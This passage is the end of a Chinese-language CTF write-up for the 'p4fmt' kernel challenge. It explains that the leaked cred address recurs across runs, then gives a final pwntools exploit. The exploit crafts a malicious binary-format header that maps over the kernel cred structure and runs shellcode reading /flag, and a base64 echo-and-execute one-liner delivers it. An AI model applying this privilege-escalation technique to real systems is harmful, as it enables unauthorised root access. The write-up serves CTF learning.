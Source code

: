 找了一找發現在第六個 `vm_mmap` 的 `0xffffa1c307595b40` 這個位址是 `cred`  
但是這個位址每次跑起來都不一樣，不過多跑幾次會發現，這個值會一直循環重複利用，所以只要多跑幾次就會對了

## Final Exploit

```python
#!/usr/bin/env python3
from pwn import *
from base64 import b64encode

context.arch = "amd64"

payload  = b"P4"             # magic
payload += p8(0)             # version
payload += p8(1)             # type
payload += p32(2)            # mapping_count
payload += p64(0x18)         # mapping_offset
payload += p64(0x400048)     # entry

leak_cred = 0xffff9855c758c0c0

# mapping
payload += flat(
    0x400000 | 7,
    0x1000,
    0,

    (leak_cred | 8) + 0x10,
    0x20,
    0
)

payload += asm(shellcraft.cat("/flag") + shellcraft.exit())

print(f'echo {b64encode(payload).decode()} | base64 -d > a ; chmod +x a ; ./a')
```

[^1]:
    https://github.com/david942j/ctf-writeups/tree/master/teaser-confidence-quals-2019/p4fmt
[^2]:
    https://devcraft.io/2019/03/19/p4fmt-confidence-ctf-2019-teaser.html
[^3]:
    https://amritabi0s.wordpress.com/2019/03/19/confidence-ctf-p4fmt-write-up/
